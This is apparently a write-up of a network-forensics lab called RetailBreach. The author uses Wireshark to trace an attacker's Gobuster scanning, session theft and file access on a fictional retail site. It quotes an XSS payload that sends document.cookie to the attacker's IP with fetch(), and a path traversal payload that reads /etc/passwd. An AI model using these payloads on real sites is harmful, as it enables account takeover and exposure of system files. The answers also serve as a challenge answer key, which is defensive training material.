










# RetailBreach

Investigate network traffic with Wireshark to identify attacker TTPs, extract XSS payloads and session tokens, and determine exploited web application vulnerabilities

## Scenario

In recent days, ShopSphere, a prominent online retail platform, has experienced unusual administrative login activity during late-night hours. These logins coincide with an influx of customer complaints about unexplained account anomalies, raising concerns about a potential security breach. Initial observations suggest unauthorized access to administrative accounts, potentially indicating deeper system compromise.

Your mission is to investigate the captured network traffic to determine the nature and source of the breach. Identifying how the attackers infiltrated the system and pinpointing their methods will be critical to understanding the attack's scope and mitigating its impact.

---

### Q1

Identifying an attacker's IP address is crucial for mapping the attack's extent and planning an effective response. What is the attacker's IP address?

```
111.224.180.128
```

`Statistics` -> `Conversations` revealed that over 14,000 packets were exchanged between `111.224.180.128` and `73.124.17.52`, while only 179 packets were exchanged between `135.143.142.5` and `73.124.17.52`. High-volume alone doesn't confirm that an IP belongs to an attacker, but it's a useful indicator.

### Q2

The attacker used a directory brute-forcing tool to discover hidden paths. Which tool did the attacker use to perform the brute-forcing?

```
Gobuser
```

Whenever an attacker performs a brute-forcing attack, it inevitably generates a lot of 404 responses. Knowing that, I filtered for responses with a 404 status code.



I picked one of the requests, followed the HTTP Stream and found that the brute-force tool they used was **Gobuster**.



### Q3

Cross-Site Scripting (XSS) allows attackers to inject malicious scripts into web pages viewed by users. Can you specify the XSS payload that the attacker used to compromise the integrity of the web application?

```
<script>fetch('http://111.224.180.128/' + document.cookie);</script>
```

XSS normally runs on JavaScript, so there was a good chance the attack used a `<script>` tag. Filtering with `ip.src == 111.224.180.128  and http contains "script"` cuts the results down dramatically. Looking at the last request in that set, the attacker sent a POST to the `/reviews.php` endpoint, and the form data carried `<script>fetch('http://111.224.180.128/' + document.cookie);</script>`. That's clearly an XSS attack.



### Q4

Pinpointing the exact moment an admin user encounters the injected malicious script is crucial for understanding the timeline of a security breach. Can you provide the UTC timestamp when the admin user first visited the page containing the injected malicious script?

```
2024-03-29 12:09
```

**Q3** showed that the attacker planted the XSS on **reviews.php**, so the next step is to find the first time the admin user hit **reviews.php**.

I filtered with `ip.src == 135.143.142.5 and http.request.uri contains "reviews.php"` and went through the results one by one. The last POST request was the one carrying the XSS payload.

- Here's why I believe `135.143.142.5` is the admin's IP: in Q1, `Statistics` -> `Conversations` showed only three IPs. `73.124.17.52` is the web server and everything points to `111.224.180.128` being the attacker, so by elimination the remaining IP has to belong to the admin user.



Since the question asks for a UTC timestamp, I switched the display via `View` - `Time Display Format` - `UTC Date and Time of Day`.



### Q5

The theft of a session token through XSS is a serious security breach that allows unauthorized access. Can you provide the session token that the attacker required and used for this unauthorized access?

```
lqkctf24s9h9lg67teu8uevn3q
```

Reopening packet 10106 from Q4, the session token `PHPSESSID=lqkctf24s9h9lg67teu8uevn3q` is right there. Packet 10106 is where the admin first encountered the attacker's XSS, so if the attacker stole a session token through the XSS, this is the token they walked away with.

### Q6

Identifying which scripts have been exploited is crucial for mitigating vulnerabilities in a web application. What is the name of the script that was exploited by the attacker?

```
log_viewer.php
```

Looking through the traffic after packet 10106, I found packet 10217: `GET /admin/log_viewer.php?file=../../../../../etc/passwd HTTP/1.1\r\n`, a path traversal attempt.

The sequence goes like this. Packet 10196 is the first request to `/admin/log_viewer.php`. Packet 10205 requests `/admin/log_viewer.php?file=error.log`. Then packet 10217 uses a path traversal sequence to reach `/etc/passwd`.



Following the HTTP stream for packet 10217, the contents of `/etc/passwd` were returned in the response.



### Q7

Exploiting vulnerabilities to access sensitive system files is a common tactic used by attackers. Can you identify the specific payload the attacker used to access a sensitive system file?

```
../../../../../etc/passwd
```

Already covered in Q6 above.